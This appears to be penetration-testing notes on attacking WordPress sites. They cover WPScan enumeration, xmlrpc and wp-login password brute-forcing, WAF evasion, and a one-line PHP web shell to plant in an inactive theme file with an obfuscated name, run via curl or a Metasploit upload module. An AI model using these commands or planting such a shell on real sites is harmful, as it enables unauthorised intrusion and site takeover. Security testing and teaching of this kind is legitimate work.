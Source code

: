 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WordPress

## General Information

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Automated Enumeration (WPScan)

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Enumerating users and brute-forcing
</strong><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong><strong># Targeted brute-forcing using xmlrpc
</strong>sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou
</code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

## Manual Enumeration

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

\*_Plugin version requires Directory listing to be enabled._

## RCE

### Browser

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

### Metasploit

```bash
# launch metasploit
msfconsole -q
# use module (make sure to `set VHOST`)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/wpscanteam/wpscan" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
{% endtab %}
{% endtabs %}
